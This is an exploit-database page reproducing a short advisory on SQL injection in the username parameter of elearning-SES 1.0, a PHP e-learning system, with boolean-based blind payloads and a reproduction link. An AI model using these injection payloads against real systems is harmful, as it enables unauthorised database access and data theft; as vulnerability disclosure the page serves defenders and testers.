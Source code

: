 ```yaml
---
title: elearning-SES 1.0 Sql Injection exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:173003&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-06-20
fetch_date: 2025-10-04T11:44:59.691819
---
```


# elearning-SES 1.0 Sql Injection exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for elearning-SES 1.0 Sql Injection

2023-06-19 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:173003
## Title: elearning-SES (by: oretnom23 ) v1.0 Multiple-SQLi
## Author: nu11secur1ty
## Date: 06.14.2023
## Vendor: https://github.com/oretnom23
## Software: https://github.com/oretnom23/php-elearning-system
## Reference: https://portswigger.net/web-security/sql-injection

## Description:
The username parameter appears to be vulnerable to SQL injection
attacks. The payloads 73152795' or 7515=7515-- and 13684562' or
3996=3998-- were each submitted in the username parameter. These two
requests resulted in different responses, indicating that the input is
being incorporated into a SQL query in an unsafe way. The attacker can
easily steal all information from the database of this system.

STATUS: HIGH-CRITICAL Vulnerability

[+]Payload:
```mysql
---
Parameter: username (POST)
Type: boolean-based blind
Title: OR boolean-based blind - WHERE or HAVING clause
Payload: username=-5075' OR 6057=6057-- JyxE&password=s8S!g3w!I2
---

```

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/oretnom23/2023/elearning_1)

## Proof and Exploit:
[href]()

## Time spend:
01:15:00
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)